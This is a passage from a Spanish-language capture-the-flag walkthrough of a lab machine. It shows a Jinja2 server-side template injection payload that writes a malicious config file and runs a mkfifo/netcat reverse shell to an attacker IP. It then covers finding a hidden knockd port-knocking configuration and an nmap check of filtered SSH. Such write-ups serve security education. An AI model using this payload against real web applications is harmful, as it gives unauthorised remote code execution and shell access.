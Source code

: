 ```null
{%raw%}
{{ ''.__class__.__mro__[2].__subclasses__()[40]('/tmp/evilconfig.cfg', 'w').write('from subprocess import check_output\n\nRUNCMD = check_output\n') }} {{ config.from_pyfile('/tmp/evilconfig.cfg') }} {{ config['RUNCMD']('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>%261|nc 10.10.16.7 443 >/tmp/f',shell=True) }}
{%endraw%}
```

En un script de ```bash``` se referencia a un directorio oculto en la raíz

```null
/app # cat start.sh 
#!/bin/bash

docker run -d -p 8080:8080 \
--net prodnet \
--ip 10.100.10.2 \
--name=tix-app \
-h tix-app \
-v /dev/null:/root/.ash_history:ro \
-v /dev/null:/root/.sh_history:ro \
-v /containers/database:/containers/database:ro \
-v /connect/.secret/:/.secret/:ro \
--restart=always \
tix-app
```

Dentro hay un un archivo de configuración de ```knock.d```

```null
/.secret # ls
knockd.conf
```

```null
/.secret # cat knockd.conf 
[options]
	logfile = /var/log/knockd.log

[opencloseSSH]

	sequence	= 40809:udp,50212:udp,46969:udp
	seq_timeout	= 15
	start_command	= ufw allow from %IP% to any port 22
	cmd_timeout	= 10
	stop_command	= ufw delete allow from %IP% to any port 22
	tcpflags	= syn
```

A través de ```PortKnocking```, puedo llegar a abrir el SSH de la máquina Host. Sin hacer nada, lo detecta como ```filtered```, es decir, es posible que esté abierto internamente, pero no está expuesto

```null
nmap -p22 10.10.10.96
Starting Nmap 7.93 ( https://nmap.org ) at 2023-02-24 20:15 GMT
Nmap scan report for 10.10.10.96
Host is up (0.088s latency).

PORT   STATE    SERVICE
22/tcp filtered ssh

Nmap done: 1 IP address (1 host up) scanned in 1.20 seconds
```

